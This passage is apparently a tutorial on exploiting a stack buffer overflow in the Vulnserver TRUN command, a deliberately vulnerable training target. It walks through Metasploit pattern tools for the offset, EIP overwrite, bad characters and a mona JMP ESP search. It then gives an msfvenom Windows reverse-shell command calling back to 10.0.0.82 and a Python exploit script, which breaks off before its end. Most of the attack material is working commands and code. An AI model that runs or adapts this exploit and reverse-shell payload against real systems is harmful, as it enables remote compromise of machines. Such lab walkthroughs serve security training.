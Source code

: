 #### 2. Finding the Offset

**Cmd:**

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_VALUE>
```

**Example:** `pattern_offset.rb -q 386F4337` -> `2003`

#### 3. Overwriting the EIP

```python
#!/usr/bin/python
import sys, socket
# Offset of 2003, EIP controlled by 4 B's
shellcode = 'A' * 2003 + 'B' * 4
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.0.71', 9999))
    s.send('TRUN /.:/' + shellcode)
    s.close()
except:
    print('Error connecting to server')
    sys.exit()
```

#### 4. Finding the bad Characters

Generate all characters from `\x01` to `\xff`. Send them after the EIP overwrite and observe the memory dump in the debugger to see which ones are missing or mangled. The null byte `\x00` is almost always a bad character.

#### 5. Finding the JMP ESP Instruction Address

Use a tool like `mona.py` in Immunity Debugger.

```
!mona jmp -r esp
```

Alternatively, in Immunity Debugger, right-click -> Search for -> All commands in all modules, and search for `JMP ESP`. Choose an address from a non-ASLR module (e.g., `essfunc.dll`). Remember to write it in little-endian format (e.g., `0x625011af` becomes `\xaf\x11\x50\x62`).

#### 6. Exploiting

**Generate shellcode:**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.82 LPORT=4444 EXITFUNC=thread -f py -a x86 -b "\x00"
```

**Final exploit script:**

```python
#!/usr/bin/python
import sys, socket

# msfvenom shellcode here
shellcode = ("\xb8\x0c\x65...")

# A's up to offset, JMP ESP address, NOP sled, shellcode
overflow = 'A' * 2003 + "\xaf\x11\x50\x62" + '\x90' * 32 + shellcode

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.0.71', 9999))
    s.send('TRUN /.:/' + overflow)
```